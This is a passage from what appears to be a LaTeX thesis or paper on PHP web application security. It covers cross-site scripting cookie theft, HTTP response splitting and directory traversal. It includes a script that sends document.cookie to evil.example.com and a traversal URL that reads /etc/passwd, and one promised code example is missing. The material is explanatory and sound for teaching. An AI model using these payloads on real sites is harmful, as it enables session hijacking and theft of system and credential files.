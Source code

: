 \begin{htmlcode}
<script>
  image = new Image();
  image.src = "http://evil.example.com/?c=" + document.cookie;
</script>
\end{htmlcode}

This code would send the site's current cookies to the server \texttt{evil.example.com}. The cookies can include the user's current session ID, which would allow the attacker to use the session ID for conducting a session-riding attack (which is also called ``session hijacking'').~\cite{kunz-esser}

\subsection{HTTP Response Splitting}
\label{http-response-splitting}
An HTTP response splitting attack is based on code allowing unsanitized CRLF (0x0d0a) character combinations to be included in HTTP headers, thus creating multiple headers.

However, as of PHP versions 4.4.2 and 5.1.2, the \texttt{header()} function only allows one header at a time, thus preventing header injection attacks. \cite{php-manual-header}


\subsection{Directory Traversal/Path Traversal}
\label{directory-traversal}
Directory traversal (also known as \emph{path traversal}) is possible if a vulnerable application includes or outputs a file using a path that comes from an untrusted source. If the application does not check that the path is relative and does not contain two dots (\texttt{..}) (directly or URL-encoded), it is possible to read or overwrite files that should not be visible, \eg \texttt{/etc/passwd/} or the file with the database credential of the application.

This is an example of vulnerable code:


An attack URL could look like this:

\begin{textcode}
http://www.example.com/index.php?file=../../../etc/passwd
\end{textcode}


